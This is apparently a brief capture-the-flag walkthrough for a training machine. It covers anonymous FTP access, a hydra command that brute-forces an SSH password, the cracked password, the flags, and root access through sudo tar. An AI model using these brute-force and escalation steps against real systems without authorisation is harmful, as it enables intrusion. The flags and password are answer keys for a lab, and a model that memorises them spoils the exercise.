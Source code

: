 # Who wrote the task list? 
nmap showed `ssh` and `ftp` ports are open and `ftp` supports anonymous login  
connect to the server via ftp `ftp IP` - `anonymous`  
get both files  

<details>
<summary>user</summary>
lin
</details>  
  
# Service and password 
use hydra to bruteforce the ssh password `hydra -l lin -P locks.txt ssh://IP`

<details>
<summary>password</summary>
RedDr4gonSynd1cat3
</details>  

# user.txt
<details>
<summary>user.txt</summary>
THM{CR1M3_SyNd1C4T3}
</details>  

# root.txt
checked wich programs lin can run as root with `sudo -l`  
`tar` can be run as root  
got the exploit from `https://gtfobins.github.io/gtfobins/tar/#sudo`

<details>
<summary>root.txt</summary>
THM{80UN7Y_h4cK3r}
</details>  